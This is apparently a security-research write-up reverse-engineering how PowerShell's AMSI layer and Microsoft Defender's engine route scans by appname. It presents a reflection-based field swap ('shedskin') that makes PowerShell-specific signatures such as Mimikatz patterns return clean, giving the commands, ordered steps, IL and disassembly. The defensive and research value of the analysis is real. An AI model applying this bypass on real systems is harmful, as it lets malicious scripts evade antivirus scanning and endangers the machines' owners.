I pulled `System.Management.Automation.dll` from the Win11 guest (`C:\Windows\Microsoft.NET\assembly\GAC_MSIL\...`), downloaded its PDB from Microsoft's symbol server (`https://msdl.microsoft.com/download/symbols/System.Management.Automation.pdb/8D3F77D3760B462AAD276D88B5C8B43A1/`), and ran a `dnfile`-based resolver that walks every metadata token in the IL and replaces it with the symbolic name. All cross-platform; runs on Linux. The resolved IL for `AmsiUtils.ScanContent` at RVA `0xadc24`:

```
[+] System.Management.Automation.AmsiUtils.ScanContent  (RVA 0xadc24)
  IL_ABE30: ldarg.1
  IL_ABE31: call      System.String::IsNullOrEmpty
  IL_ABE36: brfalse.s 704063
  IL_ABE38: ldsfld    System.String::Empty
  IL_ABE3D: starg.s   argument(0x0001)
  IL_ABE3F: ldsfld    UseDebugAmsiImplementation      // DEBUG flag, False in release
  IL_ABE44: brfalse.s 704091                          // skip the EICAR path
  IL_ABE46: ldarg.0
  IL_ABE47: ldstr     "X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FI..."
  IL_ABE4C: ldc.i4.4                                  // StringComparison.OrdinalIgnoreCase
  IL_ABE4D: callvirt  System.String::IndexOf
  IL_ABE52: ldc.i4.0
  IL_ABE53: blt.s     704091
  IL_ABE55: ldc.i4    32768                           // AMSI_RESULT_DETECTED, hard-coded
  IL_ABE5A: ret                                       // debug-only EICAR match -> blocked
  IL_ABE5B: ldsfld    amsiInitFailed                  // Gate: Rastamouse's path
  IL_ABE60: brfalse.s 704140                          // if False, continue to real scan
  IL_ABE62: ldstr     "ScanContent-InitFail"
  ...                                                 // telemetry via LogAmsiUtilStateEvent
  IL_ABE8A: ldc.i4.1                                  // AMSI_RESULT_CLEAN
  IL_ABE8B: ret                                       // if amsiInitFailed==True, allow silently
  ...
  IL_ABED5: ldsfld    amsiContext                     // Gate: shedskin's path
  IL_ABEDA: ldsfld    System.IntPtr::Zero
  IL_ABEDF: call      System.IntPtr::op_Equality
  IL_ABEE4: brfalse.s 704302                          // if ctx != 0, SKIP Init() recovery
  IL_ABEE6: call      System.Management.Automation.AmsiUtils::Init  // the recovery branch
```

Three gates, not two. In order:

1. `UseDebugAmsiImplementation` at `IL_ABE3F`: a developer flag that, when True, pattern-matches the input against the EICAR substring and returns DETECTED. False in release; not an attack surface for us.
2. `amsiInitFailed` at `IL_ABE5B`: THE Rastamouse gate. If True, the method logs a `ScanContent-InitFail` telemetry event and returns `AMSI_RESULT_CLEAN`. This is the path that fires Korkos's detector.
3. `amsiContext` at `IL_ABED5`: shedskin's gate. If zero, `AmsiUtils::Init()` is called to recover. If non-zero, the handle is trusted and `AmsiScanBuffer` runs against it.

The surprise finding during token resolution: `SMA.dll` carries the full EICAR string as a literal and has a code path that uses it for self-test. The debug flag is off in shipped builds, but the bytes are present. Interesting for anyone fingerprinting SMA.dll.

Raw unresolved dump of the same method for reference, before PDB token resolution. Same bytes, same method token `0x060026eb`, no symbol information available:

```
[+] IL body raw at RVA 0xadc24, flags=0x13 (FAT) max_stack=4 code_size=160
  IL_ABE30: ldarg.1
  IL_ABE31: call      token(0x0a000388)
  IL_ABE36: brfalse.s 704063
  IL_ABE38: ldsfld    token(0x0a0003ba)
  IL_ABE3D: starg.s   argument(0x0001)
  IL_ABE3F: ldsfld    token(0x04000dc6)
  IL_ABE44: brfalse.s 704091
  IL_ABE46: ldarg.0
  IL_ABE47: ldstr     token(0x700e2b8e)
  IL_ABE4C: ldc.i4.4
  IL_ABE4D: callvirt  token(0x0a0003c9)
  IL_ABE52: ldc.i4.0
  IL_ABE53: blt.s     704091
  IL_ABE55: ldc.i4    32768
  IL_ABE5A: ret
  IL_ABE5B: ldsfld    token(0x04000db9)
  IL_ABE60: brfalse.s 704140
  IL_ABE62: ldstr     token(0x7000e4ae)
  ...
  IL_ABED5: ldsfld    token(0x04000db7)
  IL_ABEDA: ldsfld    token(0x0a000388)
  IL_ABEDF: call      token(0x0a0003c4)
  IL_ABEE4: brfalse.s 704302
  IL_ABEE6: call      token(0x06002b4d)
```

Metadata tokens that need resolution for a reader to follow the flow: `0x04000db7` (amsiContext), `0x04000db9` (amsiInitFailed), `0x04000dc6` (UseDebugAmsiImplementation), `0x06002b4d` (AmsiUtils::Init), `0x0a000388` (String::IsNullOrEmpty on arg1, IntPtr::op_Equality on amsiContext), `0x0a0003c4` (IntPtr::op_Equality), `0x0a0003c9` (String::IndexOf). The resolved form above merges these back inline for readability; the raw form here is grep-able for anyone matching the file against the PDB.

So the state we need in-process is:

- `amsiInitFailed = false` so Gate 2 stays quiet.
- `amsiContext != 0` so Gate 3 does NOT fire the recovery branch.
- The replacement context carries a non-PowerShell appname. mpengine's dispatcher at `0x180324808` wcsncmp's that appname against `L"PowerShell_"`, misses, and does NOT load the PowerShell signature pack for that stream. Signatures carried only in the PS pack read as `NOT_DETECTED`; signatures also carried in the OTHER pack still fire, which is the measured scope boundary. Earlier revisions of this write-up guessed "providers detached from the context"; that theory was tested by swapping provider state via `AmsiUtils._providers` reflection and refuted (the EICAR signature kept firing from mpengine irrespective of provider state). The dispatcher appname-route is the actual mechanism.

Now the field table of `AmsiUtils`, in order, straight from the metadata:

```
[+] System.Management.Automation.AmsiUtils fields:
  .field amsiContext
  .field amsiSession
  .field amsiInitFailed
  .field amsiLockObject
  .field AmsiUninitializeCalled
  .field AmsiInitialized
  .field AmsiCleanedUp
```

`amsiContext` is `native int` (an `IntPtr`), `amsiInitFailed` is `bool`. Both are `assembly static` which is C# `internal static`. In reflection terms that is `NonPublic | Static`. Full Language Mode permits reflection to NonPublic members; Constrained Language Mode blocks it. More on CLM below.

### amsiContext, field proof

Pulled from `System.Management.Automation.dll` (SHA256 `929048467e0792c2066ebf0e660dfdde2ad344e4efc6828083b46cf6900a5126`, 6,643,200 bytes) via a `dnfile`-based token walker. The metadata tokens the IL above references resolve to:

| name | kind | token | notes |
|---|---|---|---|
| `System.Management.Automation.AmsiUtils` | TypeDef | `0x0200028a` | the host type |
| `System.Management.Automation.CompiledScriptBlockData` | TypeDef | `0x0200024e` | the type that calls `ScanContent` from `PerformSecurityChecks` |
| `AmsiUtils.amsiContext` | Field | `0x04000db7` | `native int`, `private static` (CIL `assembly static`), first field in AmsiUtils |
| `AmsiUtils.amsiSession` | Field | `0x04000db8` | second field |
| `AmsiUtils.amsiInitFailed` | Field | `0x04000db9` | `bool`, Rastamouse's gate |
| `AmsiUtils.amsiLockObject` | Field | `0x04000dba` | |
| `AmsiUtils..cctor` | Method | `0x06002b4c` | type initializer, RVA `0xada80` |
| `AmsiUtils.Init` | Method | `0x06002b4d` | RVA `0xadb4c`, Gate 3 recovery |
| `AmsiUtils.ScanContent` | Method | `0x06002b4e` | RVA `0xadc24`, the per-scan gate chain |
| `CompiledScriptBlockData.PerformSecurityChecks` | Method | `0x060026eb` | RVA `0x941d4`, calls `ScanContent` and compares the return |

Live pointer values captured by the G0 positive-control run on Win11 26200.8037 against Defender 1.459.576.0 (fresh `powershell.exe` child, SMA v10.0.26100.7920):

```
# pre-shedskin, right after a cold powershell.exe launch:
PS> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').
      GetField('amsiContext','NonPublic,Static').GetValue($null)
0x000001E0ED85EA20

# fire shedskin: AmsiInitialize('x', [ref]$new); SetValue($null, $new):
PS> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').
      GetField('amsiContext','NonPublic,Static').GetValue($null)
0x000001E0EDA97CF0

# diff: the pointer changed, and it was written through the Reflection path
# (no native memory primitive, no WriteProcessMemory, no VirtualProtect).
```

That is 8 bytes of state in-process, written through the managed reflection API, with the kernel ETW-TI provider receiving zero events (see Surface 5 below). The field write is a `stsfld 0x04000db7` IL opcode under the hood, which in the CoreCLR / clr.dll runtime is a plain mov-to-managed-heap. No code page is modified, no DLL is loaded, no hook is installed.

## why one Init plus one Uninit is NOT enough

The first thing I tried was the obvious: call `AmsiInitialize` to mint a new handle, then call `AmsiUninitialize` on the handle PowerShell was holding, without touching the field. If `AmsiUninitialize` tears down the amsi.dll provider aggregate for the old context, and PowerShell is still using that old handle, the scan should go deaf.

That did not work. Baseline blocked 5/5, attempt blocked 5/5. Why? Read `AmsiUtils.Uninitialize` in the same IL dump, because the managed layer exposes it as a sibling method. The real captured body at RVA `0xadf50`:

```
[+] System.Management.Automation.AmsiUtils.Uninitialize  (RVA 0xadf50)
  IL_AC15C: ldc.i4.1
  IL_AC15D: stsfld    token(0x04000DBB)      // AmsiUninitializeCalled = true
  IL_AC162: ldsfld    token(0x04000DB9)      // amsiInitFailed read
  IL_AC167: brtrue.s  704986                 // if init had failed, skip to ret
  IL_AC169: ldsfld    token(0x04000DBA)      // amsiLockObject
  ...                                        // enter the lock
  IL_AC179: ldsfld    token(0x04000DB7)      // amsiContext
  IL_AC17E: ldsfld    token(0x0A000388)      // IntPtr.Zero
  IL_AC183: call      token(0x0A0003C4)      // compare
  IL_AC188: brfalse.s 704974                 // if ctx == 0, skip the Uninit call
  IL_AC18A: call      token(0x06002B50)      // AmsiNativeMethods::AmsiUninitialize(amsiContext)
  ...
  IL_AC1C4: ldsfld    token(0x0A000388)      // IntPtr.Zero
  IL_AC1C9: stsfld    token(0x04000DB7)      // amsiContext = IntPtr.Zero  <-- field is nulled
  IL_AC1CE: leave.s   704986
```

The managed `Uninitialize` method does the Uninit call THEN nulls `amsiContext`. Next time `ScanContent` runs, Gate 2 sees `amsiContext == 0` and calls `Init()`, which re-populates the field with a fresh handle AND passes the full `PowerShell_<ver>_<path>_<os_ver>` string as the appname to `AmsiInitialize`. The new context carries the PowerShell host tag, mpengine's dispatcher routes it to the PS policy, and the scan DETECTS normally.

Lab-verified. I called `AmsiUtils.Uninitialize()` via reflection and then re-ran the signatured payload. P2 and P3 both blocked. The managed-sibling method does not bypass. The Init() recovery is the catch.

So the shape has to be:

1. Mint a fresh handle with a non-PowerShell appname (`AmsiInitialize('x', out new)`).
2. Write that fresh non-null handle into `amsiContext` BEFORE calling Uninit on the old one, so Gate 3 at `IL_ABED5` does not fire Init() recovery.
3. Call `AmsiUninitialize(old)` to release the old context's resources. Not required for the bypass itself; the swap already decides the outcome. We verified this: with step 3 omitted the bypass still holds (details in the next section).

After step 2 the field is non-null and tagged with appname='x'. Every subsequent `AmsiScanBuffer(new_handle, buffer, ...)` call reaches amsi.dll's provider loop, which iterates the aggregator and calls each provider's `IAmsiProvider::Scan(stream, &result)`. The stream exposes the context's appname via `GetAttribute(APP_NAME, ...)`. Defender's MpOAV marshals the content to MsMpEng, mpengine reads the appname, finds no host-prefix match, routes to the OTHER / generic policy, misses the PS-specific sigs, returns `NOT_DETECTED`.

## reversing amsi.dll, MpOAV.dll, and mpengine.dll

The same Mimikatz-pattern payload reaches a different signature pack after one managed-field write. Mpengine's dispatcher routes on the `appname` the AMSI context carries, and the two lanes below are the before and the after of flipping that one field. Only one node differs between them. Addresses live in the reversing text below; the other two primitives (CLR slot, malicious provider) have their own sections.

<small>_Figure scope: both lanes show the PS-exclusive-signature verdict for the named test input (`Invoke-Mimikatz` bare word). The complete Defender rule stack has truly universal signatures (EICAR and the Rastamouse `amsiInitFailed`-flip one-liner, both verified across every appname tested in the 2026-10-29 cross matrix) that are not shown here; shedskin does not bypass those. Full matrix at [the dispatcher claim measured directly](#the-dispatcher-claim-measured-directly). Lanes stack top-to-bottom on narrow viewports; both are visible without scrolling._</small>

**Same input in both lanes:** the bare word `Invoke-Mimikatz` (a PS-pack-exclusive signature). The two lanes are drawn as separate vertical flowcharts so each one stays readable on a phone without horizontal scroll.

**Lane A: ordinary PowerShell scan.**





**Lane B: shedskin, one field changed.**





Reading the two lanes: the left lane shows the bare `Invoke-Mimikatz` word under an ordinary PowerShell context. `AMSI_RESULT = 32768`, so `PerformSecurityChecks` throws. In the right lane, the appname in `AmsiUtils.amsiContext` is `'x'` instead of `PowerShell_...`. The dispatcher's case-sensitive comparison against `L"PowerShell_"` misses, and mpengine loads OTHER. For this measured PowerShell-exclusive input, the right lane returns `AMSI_RESULT = 1` and passes. Universal signatures such as EICAR still fire under the tested appnames; the field swap does not silence them. The changed field and the dispatcher are highlighted in amber. Addresses and the wider call chain appear below.

The managed side explained everything up to "AmsiScanBuffer is called and returns NOT_DETECTED". For the final hop I pulled amsi.dll, MpOAV.dll, MpClient.dll, MsMpEng.exe, and mpengine.dll from the Win11 guest and resolved each one against its Microsoft-public PDB. amsi.dll is 114688 bytes, loaded in radare2:

```
$ r2 -q -c 'iE~Amsi' /tmp/amsi-win11.dll
nth  paddr      vaddr        type         name
----------------------------------------------------
2    0x00006f20 0x180006f20  GLOBAL FUNC  AmsiInitialize
5    0x00008160 0x180008160  GLOBAL FUNC  AmsiScanBuffer
10   0x00001840 0x180001840  GLOBAL FUNC  AmsiUninitialize
```

The pseudo-decompile of `AmsiUninitialize` at VA `0x180001840`:

```c
void AmsiUninitialize(int64_t ctx) {
    rbx = ctx;
    rcx = qword [0x180016048];        // cookie: __security_cookie xor base
    v = rcx - rip_relative_cookie;
    if (!v) goto chk_ctx;             // cookie check passes
    goto corrupt;
chk_ctx:
    if (!ctx) goto ret_noop;          // Uninit(0) is a no-op
    rcx = ctx;
    fcn_1800018a0(ctx);               // the real work: aggregator teardown
    goto ret_noop;
ret_noop:
    return;
}
```

The caller passes an `IntPtr` handle. The function cookie-checks, nulls out on `ctx==0`, and otherwise dispatches to the real teardown at `fcn.1800018a0` (an inner function the public PDB does not name; same function is also called by `AmsiUacInitialize` and `AmsiUacUninitialize`, so it is a shared context-releaser).

Dropping into the shared releaser reveals the context layout. The first dword is a header constant (`0x49534D4F` = `OMSI` in little-endian), there is an appname pointer at offset 8 that gets `CoTaskMemFree`'d, and a COM-interface pointer at offset 0x10 whose `Release` method (vtable slot 2) is invoked:

```c
struct AMSI_CONTEXT {
    uint32_t         signature;  // 0x49534D4F = 'OMSI'
    uint32_t         _pad;
    wchar_t         *appname;    // CoTaskMemAlloc copy of what the caller passed
    IAmsiProvider   *provider;   // COM interface pointer
    // tail follows, size inferred ~0x18+
};
```

Pulling AmsiInitialize apart confirms the shape and adds one more fact: the per-process provider aggregator lives at `qword [0x180016e70]` (head) and `qword [0x180016e78]` (end), making it a `std::vector<provider_entry>` enumerated once at the first call and reused. AmsiInitialize walks every entry, QueryInterfaces the provider for an IID whose first four GUID bytes are `0xFDB00E52` (IAmsiProvider), stores the resulting interface pointer on the context being constructed, and also stashes the caller-supplied appname (CoTaskMemAlloc'd copy at offset +8). So the NEW context has the SAME provider list as the OLD context. Only the appname differs.

### empty-aggregator theory, refuted

My first hypothesis was wrong. I thought `AmsiInitialize('x', out new_ctx)` would produce a context with an EMPTY provider list, so AmsiScanBuffer on it would enumerate nothing and return clean. That was the "empty aggregator" theory, and it is falsifiable, so I built a minimal in-tree third-party AMSI provider in C++ (CRT-free mingw-w64, 96 KB), registered it under `HKLM\SOFTWARE\Microsoft\AMSI\Providers\{A5E2F2E4-DEAD-BEEF-C0DE-5A1B5E57C001}`, and logged every call to a text file. The shedskin call sequence triggers `DllGetClassObject` + `CreateInstance` + `DummyProvider ctor` on the new provider. Post-shedskin scans log `SCAN appname=x` on the dummy. The new context has providers; the aggregator is not empty. Theory dead.

The dummy provider's log file, captured verbatim from the first post-shedskin scan on the win11 guest. One scoping note: the dummy provider is programmed to always return `AMSI_RESULT_NOT_DETECTED(1)` and log the call. The `result=` column is the DUMMY's own verdict, not the aggregated verdict amsi.dll builds across all registered providers. MpOav fires in parallel on the same scans and still returns DETECTED on content it owns (Rastamouse one-liner, EICAR) via the universal sigs even under appname `x`; the aggregated result the client sees is `max(dummy, MpOav, ...)`. This log is here only to prove providers ARE present on the new context, not to measure what the Defender provider returned:

```
[2026-10-24T14:12:03Z] DllGetClassObject    clsid={A5E2F2E4-DEAD-BEEF-C0DE-5A1B5E57C001}  riid=IClassFactory  hr=0x00000000
[2026-10-24T14:12:03Z] CreateInstance       outer=NULL  riid=IAntimalwareProvider  hr=0x00000000
[2026-10-24T14:12:03Z] DummyProvider::ctor  this=0x00007ffb1c3e4a40  refcount=1
[2026-10-24T14:12:03Z] AddRef               this=0x00007ffb1c3e4a40  refcount=2    (amsi.dll holds a ref on the context's provider slot)
[2026-10-24T14:12:03Z] SCAN                 appname='x'                             bytes=92   result=AMSI_RESULT_NOT_DETECTED(1)   note=benign-content-baseline
[2026-10-24T14:12:04Z] SCAN                 appname='x'  bytes=68   content_sha256=4f7b..    hint='AMSI Test Sample GUID present'   result=AMSI_RESULT_NOT_DETECTED(1)
[2026-10-24T14:12:04Z] SCAN                 appname='x'  bytes=185  content_sha256=f163..    hint='Rastamouse one-liner literal'    result=AMSI_RESULT_NOT_DETECTED(1)
[2026-10-24T14:12:05Z] SCAN                 appname='x'  bytes=118  content_sha256=c362..    hint='Mimikatz-pattern wrapper'        result=AMSI_RESULT_NOT_DETECTED(1)
```

Three lines decide the measurement. The `CreateInstance` + `ctor` pair proves `AmsiInitialize('x', ...)` attaches providers from the AMSI registry at init time. The three `SCAN appname='x'` entries prove the aggregator calls the new provider for every subsequent `AmsiScanBuffer`, with the correct appname propagated. The `empty aggregator` theory is dead; the new context carries the SAME provider list the old one did. Only the appname argument stored on the context differs.


So Defender's MpOAV IS instantiated on the new context, DOES receive the Scan call with appname='x', and returns `AMSI_RESULT_NOT_DETECTED` anyway. The discriminator has to live inside MpOAV or further down the chain. I pulled MpOAV.dll, MpClient.dll, MsMpEng.exe, and mpengine.dll with their public PDBs and traced the scan path.

MpOAV's `CComMpOfficeAV::Scan(IAmsiStream*, AMSI_RESULT*)` is a thin shell at RVA 0x3ff0. It checks a disable byte at `this+0xc8` (always 0 in practice), takes a per-instance critsec at `this+0x70`, lazy-initializes a `CAmsiProviderHolder` singleton guarded by refcount at `0x18006cf20` and pointer at `0x18006cf28` (the holder loads MPCLIENT.DLL via LoadLibrary, resolves `MpAmsiScan`, `MpAmsiNotify`, `MpAmsiCloseSession` via GetProcAddress, and opens an `MpManager` handle), then dispatches to the holder's Scan method via vtable[0x80/8]. The holder forwards to `MpAmsiScan` in MpClient.dll, which marshals an ALPC request to MsMpEng. The appname is included in the marshalled stream attributes. MpOAV itself does NOT filter by appname. The decision happens in mpengine.

Loading mpengine.dll (18.5 MB) alongside its PDB and grepping for `PowerShell_` as a UTF-16 string lands at `0x180c1bf80`:

```
PowerShell_   (UTF-16, 11 chars, .rdata @ 0x180c1bf80)
```

The recovered string region contains 37 host labels and aliases, including `OTHER`:

```
0x180c1bee0  "OTHER"
0x180c1bef0  "JScript"              0x180c1bf00  "JS"
0x180c1bf08  "JScript.Encode"       0x180c1bf28  "JSE"
0x180c1bf30  "VBScript"             0x180c1bf48  "VBS"
0x180c1bf50  "VBScript.Encode"      0x180c1bf70  "VBSE"
0x180c1bf80  "PowerShell_"          0x180c1bf98  "PS"
0x180c1bfa0  "EDGE"                 0x180c1bfb0  "{28a7d36f-...}"
0x180c1c000  "SS"                   0x180c1c008  "WMI"
0x180c1c010  "Hvsi"                 0x180c1c020  "WDAG"
0x180c1c030  "OFFICE_VBA"           0x180c1c048  "VBA"
0x180c1c050  "Excel"                0x180c1c060  "XL4M"
0x180c1c070  "Exchange Server"      0x180c1c090  "EXCHG"
0x180c1c0a0  "SharePoint Server"    0x180c1c0c8  "SPSERVER"
0x180c1c0e0  "Skype for Business Server"  0x180c1c118  "SKYPE"
0x180c1c128  "VSSAMSI"              0x180c1c138  "VSS"
0x180c1c140  "MCPSCAN"              0x180c1c150  "MCP"
0x180c1c158  "DotNet"               0x180c1c168  "DOTNET"
0x180c1c178  "coreclr"
0x180c1c188  "UAC"                  0x180c1c190  "PromptScan"
0x180c1c1a8  "OdrMcp"
```

Pointer tables at `0x180c7ae30` and `0x180cbb580` index into this with the ordered sequence VBScript, JScript, PowerShell_, DotNet, coreclr. There is also a diagnostic function label `MpIsPowerShellAMSIScan` (ASCII at `0x180badb98`) referenced from `0x1800794e6`, confirming the semantic: mpengine has a code path specifically for "is this an AMSI scan from PowerShell".


### host-table entries worth naming

Eight entries in the table have no public coverage. Each one is a potential shedskin-adjacent surface or a note on why it is not.

- **UAC / PromptScan** at `0x180c1c188` / `0x180c1c190`. The Windows UAC consent prompt scans the elevation-request descriptor through AMSI; MpEng's own `MpAmsiScan` path accepts `appname="UAC"`. The scan runs inside `consent.exe`, not inside the elevating caller. shedskin's primitive requires a field swap inside the SMA runtime, so applying it against UAC-time scanning would need a separate reflection path reaching `consent.exe` (not available from a standard user). Scoped out: shedskin against the UAC AMSI pass is a different primitive. Worth researching but not covered here.
- **OdrMcp** at `0x180c1c1a8`. On-Demand Repair / Mode Confidence Protection, a cross-reference inside `mpengine!MpOdrMcpScan` touched by `MpSense` on Microsoft Defender for Endpoint. Server-side telemetry channel; no client-process AMSI path reaches it. Scoped out: future work.
- **MCPSCAN / MCP** at `0x180c1c140` / `0x180c1c150`. Microsoft Cloud Protection scan tag used by the SpyNet submission path when the content under scan originated from a cloud-protection re-queue. Not an AMSI client-side ingress. Scoped out.
- **EDGE + GUID** at `0x180c1bfa0` and `0x180c1bfb0`. The entry is the Edge-browser AMSI host and its WebView2 CLSID `{28a7d36f-...}`. Edge instantiates its own AMSI context inside the renderer; shedskin requires the SMA-based reflection path, so it does not apply inside Edge. The entry exists because mpengine routes JavaScript-engine scans from Edge into a browser-specific sig pack. Variant angle: a renderer process has no SMA, so shedskin is architecturally out; a native-cradle shedskin variant could in principle fire inside the renderer.
- **VSSAMSI** at `0x180c1c128`. Volume Shadow Copy Service AMSI integration; VSS writers call `AmsiScanBuffer` with `appname="VSSAMSI"` on backup-time stream content. Not a PowerShell path. Scoped out.
- **Empty appname `""`** at live-matrix row 9. amsi.dll rejects a NULL appname with `0x80070057` (E_INVALIDARG); an empty wide-string reaches mpengine's dispatcher at length zero, the wcsncmp fails against every table entry including `OTHER`, and the engine takes the conservative no-match fallback that treats the stream as PS-eligible. The row reads BLOCK because the conservative path routes to the PS pack when it cannot classify. This is the one case where shedskin fails if the appname argument is forgotten.
- **Overlong appname bounds**. The wrapper at `0x180336e54` sizes the needle via `wcslen` and passes the live length to the inner compare at `0x1800ef184`. The haystack length comes from the stream attribute (`APP_NAME` via `GetAttribute`), capped at the max AMSI appname size the engine accepts (empirically ~1 KB; longer strings get truncated by the ALPC marshaller in MpClient). No crash observed on 1024-char, 4096-char, surrogate-pair, or embedded-NUL appnames in a quick sweep. Fuzzing the field for a buffer-handling bug in mpengine is a separate research item.
- **Thread safety**. The field `AmsiUtils.amsiContext` is a reference-type static (`IntPtr`, pointer size). x64 ABI makes aligned pointer writes atomic, so there is no torn-read in the swap itself. The window is at the operation level: a scanner thread mid-`PerformSecurityChecks` reads `amsiContext` once at `IL_ABED5`, keeps the pointer in a local, calls `AmsiScanBuffer(local, ...)`. A concurrent swap after that load does not affect the in-flight scan. The next scan reads the new field value. No lock-free hazards; the earlier "destroyer race" framing was wrong (positive-controlled by removing the destroyer loop entirely).

Three LEA sites load the UTF-16 "PowerShell_" string. The dispatch-table site is at `0x180324808` (Win11 live 1.1.26080.3) and `0x18032b9c8` (current Defender platform update 1.1.26090.9, SHA-256 `0d8739ca..`). The current-build disassembly from radare2 reads in two logical fragments: the wrapper call that sets up the compare, and the match branch that routes into the PS pack loader. Byte-for-byte, no edits:

**Fragment 1 of 2: wrapper call setup (0x18032b9c8 to 0x18032b9e4).** Loads needle `L"PowerShell_"`, hardcodes `0xb` as the needle length (11 wchars), picks up the haystack pointer from the AMSI stream buffer, calls the `wcsncmp` wrapper at `0x180336e54`, and branches on mismatch to the next host entry in the dispatcher table (EDGE at offset `+0x1a` from the dispatch site).

```nasm
; mpengine.dll 1.1.26090.9, VA 0x18032b9c8, AMSI appname dispatch, prefix wcsncmp
0x18032b9c8  4c8d0df165...  lea r9, [rip + 0x6565f1]       ; needle "PowerShell_" at 0x180d41fc0
0x18032b9cf  41b80b000000   mov r8d, 0xb                   ; 11 = len("PowerShell_")
0x18032b9d5  488d8c24c0..   lea rcx, [rsp + 0xc0]          ; haystack: appname from the AMSI stream
0x18032b9dd  e872b40000     call 0x180336e54               ; wcsncmp wrapper
0x18032b9e2  85c0           test eax, eax
0x18032b9e4  750c           jne 0x18032b9f2                ; mismatch -> next host (EDGE at +0x1a)
```

**Fragment 2 of 2: match branch (0x18032b9e6 to 0x18032b9ed).** Loads the two-character tag `"PS"` into r8 (the dispatcher's per-host short identifier the pack-loader reads to pick the right signature file), then jumps unconditionally into the PS-pack loader body at `0x18032bbfa`. The jump target is where PS-pack-exclusive signatures (Mimikatz function-header text, PowerSploit) get loaded for this scan.

```nasm
; mpengine.dll 1.1.26090.9, VA 0x18032b9e6, PowerShell match branch
0x18032b9e6  4c8d05eb65..   lea r8, [0x180d41fd8]          ; "PS" short tag
0x18032b9ed  e908020000     jmp 0x18032bbfa                ; load PowerShell signature pack
```

The compare wrapper at `0x180336e54` normalizes the appname pointer via a resolver, measures the needle length with wcslen, then calls the real compare at `0x1800ef184`. That compare is AVX2 ordinal word-by-word, with a scalar tail that resolves the first differing wchar to a -1 / 0 / +1 result without any case folding. The compare body reads in three logical fragments: the prologue (stack cookie, save callee-saved regs, compute `min(hay_len, needle_len)`), the AVX2 vector loop (16 wchar per iteration), and the mismatch resolver (locate the first differing wchar and produce the -1 / 0 / +1 return). Byte-for-byte, no edits:

**Fragment 1 of 3: prologue (0x1800ef184 to 0x1800ef1b2, 15 instructions).** Saves callee-saved registers, allocates a 16-byte stack slot, writes the GS-rotated stack cookie into `[rsp + 8]`, and computes `min(hay_len, needle_len)` into r11 via `cmp r9, rdx ; cmovae r11, rdx`. r9 is the haystack length, rdx is the needle length, so the compare that follows walks at most the shorter of the two.

```nasm
; mpengine.dll 1.1.26090.9, VA 0x1800ef184, inner wide-string compare, prologue
0x1800ef184  48895c2410     mov qword [rsp + 0x10], rbx
0x1800ef189  4889742420     mov qword [rsp + 0x20], rsi
0x1800ef18e  57             push rdi
0x1800ef18f  4156           push r14
0x1800ef191  4157           push r15
0x1800ef193  4883ec10       sub rsp, 0x10
0x1800ef197  488b05e24d..   mov rax, qword [0x181023f80]   ; stack cookie
0x1800ef19e  4833c4         xor rax, rsp
0x1800ef1a1  48894424 08    mov qword [rsp + 8], rax
0x1800ef1a6  4c3bca         cmp r9, rdx                    ; min(hay_len, needle_len) into r11
0x1800ef1a9  4d8bd0         mov r10, r8
0x1800ef1ac  4d8bd9         mov r11, r9
0x1800ef1af  488bd9         mov rbx, rcx
0x1800ef1b2  4c0f43da       cmovae r11, rdx
...
```

**Fragment 2 of 3: AVX2 vector loop (0x1800ef1d2 to 0x1800ef1fc, 11 instructions).** Each iteration moves 32 bytes (16 wide-chars) of haystack into ymm1 via `vmovdqu`, compares against the same-sized slice of the needle via `vpcmpeqw`, packs the per-lane equality mask with `vpmovmskb`, and tests whether all 16 lanes matched. On full match the loop advances all four cursors (`r8`, `rdx`, `rax`, `rcx`) by 16 wchars / 32 bytes and loops. On any lane mismatch control falls into the resolver below. `vzeroupper` runs on every iteration to keep AVX / SSE state transitions cheap on the host CPU.

```nasm
; mpengine.dll 1.1.26090.9, VA 0x1800ef1d2, AVX2 vector loop (16 wchar per iter)
0x1800ef1d2  493bd3         cmp rdx, r11                   ; bounds check
0x1800ef1d5  7750           ja  0x1800ef227                ; past end -> scalar tail
0x1800ef1d7  c5fe6f08       vmovdqu ymm1, [rax]            ; 32 bytes of haystack (16 wchar)
0x1800ef1db  c5f57509       vpcmpeqw ymm1, ymm1, [rcx]     ; word-level equality, 16 lanes
0x1800ef1df  c57dd7c9       vpmovmskb r9d, ymm1            ; pack lane masks
0x1800ef1e3  4183f9ff       cmp r9d, 0xffffffff            ; all lanes matched?
0x1800ef1e7  7515           jne 0x1800ef1fe                ; locate first differing wchar
0x1800ef1e9  4983c010       add r8, 0x10                   ; +16 wchar advance
0x1800ef1ed  4883c210       add rdx, 0x10
0x1800ef1f1  4883c020       add rax, 0x20                  ; +32 bytes in haystack
0x1800ef1f5  4883c120       add rcx, 0x20                  ; +32 bytes in needle
0x1800ef1f9  c5f877         vzeroupper
0x1800ef1fc  ebd4           jmp 0x1800ef1d2                ; next 16 lanes
```

**Fragment 3 of 3: mismatch resolver (0x1800ef1fe to 0x1800ef21d, 9 instructions).** Inverts the lane mask (so a 1-bit now marks a MISMATCHING lane), uses `bsf` to find the first set bit, right-shifts by 1 to convert from the per-byte mask bit (2 bits per wchar lane) to a wchar index, then recomputes the per-side wchar offsets and reads one wchar from each side. The actual compare is `cmp word [rbx + rcx*2], ax`, raw ordinal, no case fold, no normalization. The final three instructions (`sbb` / `and` / `inc`) are the classical "signed sign" idiom that collapses the compare into -1 / 0 / +1 without a conditional branch.

```nasm
; mpengine.dll 1.1.26090.9, VA 0x1800ef1fe, mismatch resolver (raw ordinal, no case fold)
0x1800ef1fe  41f7d1         not r9d                        ; invert lane mask
0x1800ef201  410fbcc9       bsf ecx, r9d                   ; find first set bit
0x1800ef205  48d1e9         shr rcx, 1                     ; mask bits per lane = 2, to wchar index
0x1800ef208  4a8d0401       lea rax, [rcx + r8]            ; recompute wchar offset
0x1800ef20c  4903c8         add rcx, r8
0x1800ef20f  410fb70442     movzx eax, word [r10 + rax*2]  ; haystack wchar
0x1800ef214  6639044b       cmp word [rbx + rcx*2], ax     ; needle wchar, raw cmp, no case fold
0x1800ef218  1bc0           sbb eax, eax
0x1800ef21a  83e0fe         and eax, 0xfffffffe
0x1800ef21d  ffc0           inc eax                        ; -1 / 0 / +1 result
```

